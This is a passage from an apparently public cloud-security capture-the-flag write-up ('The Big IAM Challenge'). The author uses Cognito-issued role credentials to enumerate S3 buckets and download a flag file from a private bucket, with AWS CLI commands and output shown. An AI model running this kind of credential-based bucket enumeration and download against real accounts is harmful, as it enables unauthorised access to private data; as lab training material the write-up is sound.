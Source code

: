 I again set the environment variables locally.
```
$ aws sts get-caller-identity
{
    "UserId": "AROARK7LBOHXASFTNOIZG:s3access",
    "Account": "092297851374",
    "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessAuth_Role/s3access"
}
```

We didn't get any information on buckets, so I just checked, if I can look at all of them.

```
$ aws s3api list-buckets
{
    "Buckets": [
        {
            "Name": "tbic-wiz-analytics-bucket-b44867f",
            "CreationDate": "2023-06-04T17:07:29+00:00"
        },
        {
            "Name": "thebigiamchallenge-admin-storage-abf1321",
            "CreationDate": "2023-06-05T13:07:44+00:00"
        },
        {
            "Name": "thebigiamchallenge-storage-9979f4b",
            "CreationDate": "2023-06-04T16:31:02+00:00"
        },
        {
            "Name": "wiz-privatefiles",
            "CreationDate": "2023-06-05T13:28:31+00:00"
        },
        {
            "Name": "wiz-privatefiles-x1000",
            "CreationDate": "2023-06-05T13:28:31+00:00"
        }
    ],
    "Owner": {
        "DisplayName": "shir+ctf",
        "ID": "37ec5af87b339325fbafa92e65fbd5f5ab4bcd7e733fa76838720554da48d3f9"
    }
}
```

The only bucket I didn't look into yet is `wiz-privatefiles-x1000`. This bucket contained the last flag.

```
$ aws s3 ls s3://wiz-privatefiles-x1000/
2023-06-05 21:42:27       4220 cognito2.png
2023-06-05 15:28:35         40 flag2.txt
```

```
$ aws s3 cp s3://wiz-privatefiles-x1000/flag2.txt .
download: s3://wiz-privatefiles-x1000/flag2.txt to ./flag2.txt   
```
